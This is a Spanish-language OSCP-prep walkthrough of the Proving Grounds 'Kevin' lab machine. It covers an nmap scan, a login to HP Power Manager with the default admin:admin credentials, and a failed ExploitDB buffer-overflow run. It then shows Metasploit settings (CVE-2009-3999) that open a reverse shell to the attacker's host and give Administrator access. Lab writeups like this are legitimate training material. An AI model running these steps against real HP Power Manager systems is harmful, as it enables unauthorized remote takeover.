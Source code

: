 ```yaml
---
layout: single
title: PG Practice (OSCP Prep.) - Kevin Writeup
excerpt: "Hoy estaré resolviendo la máquina Kevin, una máquina bastante sencilla, ya que no necesitaremos escalar privilegios: el servicio vulnerable ya se ejecuta con privilegios de Administrador. He elegido empezar con algo más básico, ya que en los próximos días estaré abordando máquinas centradas en Active Directory, fundamentales para la preparación del OSCP."
date: 2025-04-10
classes: wide
header:
  teaser: /assets/images/pg-writeup-kevin/pg_writeup_kevin.webp
  teaser_home_page: true
  icon: /assets/images/linux_logo.webp
categories:
  - Proving Grounds Practice
  - OSCP
tags:
  - HP Power Manager
  - Pentesting
---
```


Comenzamos sin rodeos.

<p align="center">
<img src="/assets/images/pg-writeup-kevin/start_kevin.gif">
</p>

# Enumeración 

```bash
nmap -p- -sS -sCV --min-rate 5000 --open -vvv -n -Pn 192.168.212.45 -oG allports
```

# Puertos: 

```bash
Nmap scan report for 192.168.212.45
Host is up (0.042s latency).
PORT      STATE SERVICE      VERSION
80/tcp    open  http         GoAhead WebServer
| http-title: HP Power Manager
|_Requested resource was http://192.168.212.45/index.asp
|_http-server-header: GoAhead-Webs
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| ssl-cert: Subject: commonName=kevin
| Not valid before: 2025-03-14T15:47:12
|_Not valid after:  2025-09-13T15:47:12
| rdp-ntlm-info: 
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2025-03-15T15:52:44+00:00
|_ssl-date: 2025-03-15T15:52:59+00:00; +1s from scanner time.
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: KEVIN; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time: 
|   date: 2025-03-15T15:52:44
|_  start_date: 2025-03-15T15:47:58
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate N 7600 (Windows 7 Ultimate N 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: kevin
|   NetBIOS computer name: KEVIN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-03-15T08:52:44-07:00
|_clock-skew: mean: 1h24m01s, deviation: 3h07m50s, median: 0s
|_nbstat: NetBIOS name: KEVIN, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:bf:5c (VMware)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.75 seconds
```

Durante el escaneo con Nmap, ya puedo ver que en el título de la página web en el puerto 80 aparece HP Power Manager, así que voy directo a investigar esa interfaz.

# Puerto 80:

Me encuentro efectivamente con un `HP Power Manager`

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315165637.png">
</p>

Como se puede ver en la foto, ya tengo unas credenciales escritas: <span style="color:red;">admin:admin</span>, las cuales, según mi búsqueda en Google, son las credenciales por defecto en `HP Power Manager`.

Y las credenciales son válidas

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315165710.png">
</p>

# Intrusión - CVE-2009-2685 - HP Power Manager Administration Universal Buffer Overflow Exploit

Una vez dentro, me dispongo a buscar vulnerabilidades asociadas al servicio `HP Power Manager`.

```bash
searchsploit HP Power Manager
```
<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315165812.png">
</p>

Voy a probar la siguiente vulnerabilidad presente en [ExploitDB](https://www.exploit-db.com/), la cual explota un `Buffer Overflow`.

[CVE-2009-2685](https://www.exploit-db.com/exploits/10099)


Lanzo el exploit indicando la IP de la máquina víctima. Se ve que lo que hace el exploit es iniciar en la máquina una bind shell por el puerto `4444`, para que luego me conecte con `Netcat`. No necesitamos indicar las credenciales, ya que están hardcodeadas en el exploit directamente.

```bash
python2 exploit.py 192.168.212.45
HP Power Manager Administration Universal Buffer Overflow Exploit
ryujin __A-T__ offensive-security.com
[+] Sending evil buffer...
HTTP/1.0 200 OK
[+] Done!
[*] Check your shell at 192.168.212.45:4444 , can take up to 1 min to spawn your shell
```
Pero algo no ha funcionado 

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315171120.png">
</p>

Dado que no me ha funcionado el script, voy a usar `Metasploit` para ser rápido, pero ¡recuerda! Solo puedes usar `Metasploit` en una máquina del `OSCP`. Si eliges una máquina para usar `Metasploit`, con ella ya no podrás usarlo en otra máquina.

<p align="center">
<img src="/assets/images/pg-writeup-kevin/warning.gif">
</p>

Vamos allá

```bash
msfconsole
```

```bash
msf6> search "formExportDataLogs"
msf6> use 0
```

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315171659.png">
</p>

Haciendo búsquedas en Google, me encuentro con otra vulnerabilidad de `HP Power Manager que permite RCE`, en la función `formExportDataLogs`. La vulnerabilidad está asociada con este CVE: `CVE-2009-3999`.

**Reverse shell**

```bash
msf6> set username admin
msf6> set password admin
msf6> set LHOST 192.168.45.214
msf6> set LPORT 4444
msf6> set RHOSTS 192.168.212.45
msf6> run
```

Obtenemos la sesión como usuario Administrador: 

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250315171809.png">
</p>

Ya podemos leer el `proof.txt`

<p align="center">
<img src="/assets/images/pg-writeup-kevin/Pasted image 20250410175419.png">
</p>

Máquina completada!

<p align="center">
<img src="/assets/images/pg-writeup-kevin/tony-stark-iron-man.gif">
</p>


Gracias por leer y recuerda usar `Metasploit` con precaución en el `OSCP`.


